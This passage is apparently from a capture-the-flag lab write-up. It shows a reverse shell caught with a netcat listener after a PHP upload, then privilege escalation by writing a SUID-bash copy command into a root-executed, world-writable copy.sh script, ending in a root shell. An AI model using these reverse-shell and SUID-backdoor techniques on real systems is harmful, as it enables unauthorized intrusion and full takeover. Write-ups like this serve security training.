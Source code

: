 This is how mine looked.

After uploading it, it can be found in
`/content/inc/ads/` through the web browser. 

After starting a netcat session with the matching port in the exploit, we click the link for the what-becomes-a-php file we edited and get a shell!

`whoami` reveals us to be www-data.

# Privilege Escalation
#### Checking sudo privileges
Checking `sudo -l` shows we can run a file in the itguy's directory and `/usr/bin/perl`
Lets check the backup.pl file.
Interesting. We can see we have read and execute on this file.
```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.13.62.120] from (UNKNOWN) [10.10.69.86] 44730
bash: cannot set terminal process group (1056): Inappropriate ioctl for device
bash: no job control in this shell
www-data@THM-Chal:/var/www/html/content/inc/ads$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/var/www/html/content/inc/ads$ ls -la /home/itguy/ | grep backup
<html/content/inc/ads$ ls -la /home/itguy/ | grep backup                     
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
```

Lets check the `/etc/copy.sh` it references.

copy.sh had some gibberish within. We have write privileges on this file, and we know it gets executed as root, thanks to that backup.pl file running as root.

```
www-data@THM-Chal:/etc$ echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" > copy.sh
<o "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" > copy.sh                    
www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl
sudo /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/etc$ echo "/tmp/bash -p" > copy.sh
echo "/tmp/bash -p" > copy.sh
www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl
sudo /usr/bin/perl /home/itguy/backup.pl
whoami
root
cd /root
ls
root.txt
cat root.txt
```